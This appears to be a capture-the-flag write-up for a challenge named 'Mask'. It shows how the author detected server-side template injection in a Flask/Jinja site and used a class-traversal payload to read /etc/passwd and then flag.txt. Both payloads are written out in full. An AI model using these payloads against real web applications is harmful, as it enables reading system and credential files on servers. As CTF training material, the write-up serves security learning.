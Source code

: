 # Mask

This website was developed in Flask. And it uses Jinja as a template engine. this was specifically mentioned on the website.  

So there must be some kind of template injection, to check I submitted `{{ 40 + 2 }}` and it rendered `42` on the page.

Then I tried to get `/etc/passwd` with the following template
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
```

It worked! Next thing to do was to find where the flag was stored, 
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]("flag.txt").read() }}
```
And it worked!

> ### LLS{server_side_template_injection_unmasked}